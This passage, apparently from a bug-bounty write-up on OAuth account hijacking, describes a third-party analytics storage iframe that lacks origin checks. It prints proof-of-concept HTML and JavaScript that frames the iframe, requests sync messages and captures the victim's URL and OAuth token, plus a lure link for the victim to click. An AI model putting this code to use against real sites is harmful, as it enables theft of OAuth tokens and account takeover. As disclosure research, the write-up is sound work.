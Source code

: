     ```html
    <div id="leak"><iframe
    id="i" name="i"
    src="https://cdn.customer12345.analytics.example.com/storage.html"
    onload="run()"></iframe></div>
    ```
2.  Since the malicious page was now the parent of the iframe, and no origins were defined in the `allowList`, the malicious page could send messages to the iframe to tell the storage to send messages for any updates to the storage. I could also add a listener to the malicious page to listen for any sync-updates from the storage:

    ```html
    <script>
    function run() {
      i.postMessage({type:'sync'}, '*')
    }
    window.addEventListener('message', function (e) {
     if (e.data && e.data.type === 'sync') {
         document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
     }
    });
    </script>
    ```
3.  The malicious page would also contain a regular link for the victim to click:

    ```html
    <a href="https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?..."
    target="_blank">Click here to hijack token</a>';
    ```
4.  The victim would click the link, go through the OAuth-dance, and end up on the non-happy path loading the tracking-script and the storage-iframe. The storage iframe gets an update of `last-url`. The `window.storage`-event would trigger in the iframe of the malicious page since the localStorage was updated, and the malicious page that was now getting updates whenever the storage changed would get a postMessage with the current URL of the victim:

    <figure><img src="https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example2.png" alt=""><figcaption></figcaption></figure>

[**Gadget 3: example 2, customer mix-up in CDN – DIY storage-SVG without origin check**](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/#gadget-3-example-2-customer-mix-up-cdn-diy-storage-svg-without-origin-check)

Since the analytics-service itself had a bug bounty, I was also interested to see if I could find a way to leak URLs also for the websites that had configured proper origins for the storage-iframe.

When I started searching for the `cdn.analytics.example.com`-domain online without the customer-part of it, I noticed that this CDN also contained images uploaded by customers of the service:

```
https://cdn.analytics.example.com/img/customer42326/event-image.png
https://cdn.analytics.example.com/img/customer21131/test.png
```

I also noticed that there were SVG-files served inline as `Content-type: image/svg+xml` on this CDN:
